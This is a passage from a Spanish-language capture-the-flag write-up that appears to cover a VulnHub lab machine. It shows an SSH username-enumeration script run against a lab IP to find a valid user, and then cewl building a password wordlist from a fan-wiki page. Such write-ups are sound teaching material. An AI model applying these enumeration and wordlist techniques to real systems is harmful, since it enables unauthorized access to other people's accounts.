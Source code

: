 Al parecer hay una serie de eso

<https://bourne.fandom.com/wiki/Operation_Treadstone>

Estos tal vez puedan ser usuarios validos por que es un `CTF` asi que lo que vamos a hacer es aprovecharnos del `script` para que nos diga si los usuario son validos

![](/assets/images/vh-writeup-blackmarket/4.png)

Solo `nicky` es valida 

```python
❯ python2.7 ssh_user_enumeration.py 192.168.1.152 richard 2>/dev/null
[-] richard is an invalid username
❯ python2.7 ssh_user_enumeration.py 192.168.1.152 ward 2>/dev/null
[-] ward is an invalid username
❯ python2.7 ssh_user_enumeration.py 192.168.1.152 alexander 2>/dev/null
[-] alexander is an invalid username
❯ python2.7 ssh_user_enumeration.py 192.168.1.152 albert 2>/dev/null
[-] albert is an invalid username
❯ python2.7 ssh_user_enumeration.py 192.168.1.152 neil 2>/dev/null
[-] neil is an invalid username
❯ python2.7 ssh_user_enumeration.py 192.168.1.152 nicky 2>/dev/null
[+] nicky is a valid username
❯ python2.7 ssh_user_enumeration.py 192.168.1.152 daniel 2>/dev/null
[-] daniel is an invalid username
```

Podemos usar `cewl` para crearnos un diccionario con posibles contraseñas

Vamos a usar esta web

<https://bourne.fandom.com/wiki/Operation_Treadstone>

```bash
❯ cewl -w diccionario.txt https://bourne.fandom.com/wiki/Operation_Treadstone -d 0
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

❯ ls
 diccionario.txt
❯ cat diccionario.txt | wc -l
706
```
